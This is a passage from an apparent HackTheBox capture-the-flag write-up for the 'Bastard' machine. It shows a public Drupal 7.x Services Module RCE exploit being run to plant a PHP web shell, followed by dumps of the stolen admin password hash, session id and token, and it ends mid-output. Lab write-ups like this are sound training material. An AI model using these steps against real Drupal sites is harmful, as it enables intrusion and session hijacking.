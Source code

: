 Make sure to run `apt install php-curl` before running the script.

```php
root@kali:~/CTF/HTB/Boxes/Bastard# php 41564.php 
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://bastard.htb/wolf.php
```

File uploaded!!

In the directory it gives two files, `user.json` and `session.json`, while checking them it gives admin password of drupal CMS and cookies too by using them I can login as `admin` but that's not what i need now.

```json
root@kali:~/CTF/HTB/Boxes/Bastard# cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1492102672",
    "login": 1593151371,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}
root@kali:~/CTF/HTB/Boxes/Bastard# cat session.json 
{
    "session_name": "SESS3be1999be4b134a44bef1e6c979c5741",
    "session_id": "d5-kjU1clAEtFdlM7C-bAmvvkrt-wnHhf4GYzMQFVQ4",
    "token": "fQTBbEvUd0277ut2H5Cy-lsHAGoiKsL6YTRBOPBC5j0"
```